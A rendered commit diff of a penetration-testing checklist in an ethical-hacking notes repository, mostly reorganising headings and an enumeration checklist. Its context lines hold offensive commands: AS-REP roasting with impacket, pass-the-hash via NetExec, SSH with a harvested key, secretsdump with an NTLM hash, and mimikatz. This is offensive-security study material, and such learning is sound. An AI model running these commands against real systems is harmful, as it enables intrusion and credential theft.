

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/templates-and-cheat-sheets/penetration-test-checklist.md, the part around one of its changes. Shown at 86% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
GITBOOK-272: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/templates-and-cheat-sheets/penetration-test-checklist.md
+++ b/ethical-hacking/templates-and-cheat-sheets/penetration-test-checklist.md
@@ -68,7 +72,7 @@
   $ proxychains impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
   ```
 
-
+***
 
 ## Harvest new Hash
 
@@ -76,6 +80,8 @@
 * ```shell-session
   $ NetExec rdp 192.168.215.175 -u users.txt -H hashes.txt
   ```
+
+***
 
 ## Harvested a new Private Key
 
@@ -87,22 +93,36 @@ If we have a shell on a box and notice a user has a private key in their home di
   victim@host$ ssh -i id_rsa mario@172.16.233.14
   ```
 
-##
+***
 
 ## Popped a new Shell
 
-####
+### Manual Enumeration
 
-#### (PWNED) - Dump Secrets
+* [ ] [Check **ALL** privileges](../windows-privilege-escalation/escalating-privilege.md#insecure-privileges) "whoami /priv" for potential exploits
+* [ ] Check for sensitive files
+* [ ] Check for potential binary hijacking
+* [ ] Check for scheduled tasks / services running under other users.
+
+
+
+### Domain Connected User
+
+#### Check ACL's/ACE's
+
+* [ ] bloodhound / sharphound
+* [ ] powerview
+
+### PWNED Shell?- Dump Secrets!
 
 * <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
   </strong></code></pre>
 * <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\mimikatz.exe
   </strong></code></pre>
 
+***
+
 ## Privilege Escalation - Windows
-
-####
 
 ### Automated Enumeration
 
@@ -112,18 +132,9 @@ If we have a shell on a box and notice a user has a private key in their home di
   PS> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
   ```
 
+{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}
 
-
-### Manual Enumeration
-
-* [ ] Check for sensitive files
-* [ ] Check for potential binary hijacking
-* [ ] Check for scheduled tasks / services running under other users.
-* [ ] Check **ALL** privileges "whoami /priv" for potential exploits
-
-
-
-{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}
+***
 
 ## Lateral Movement
 
````
Also changed, not shown: other parts of ethical-hacking/templates-and-cheat-sheets/penetration-test-checklist.md (+11 -5 lines), SUMMARY.md (+1 -1 lines), 2 other files.
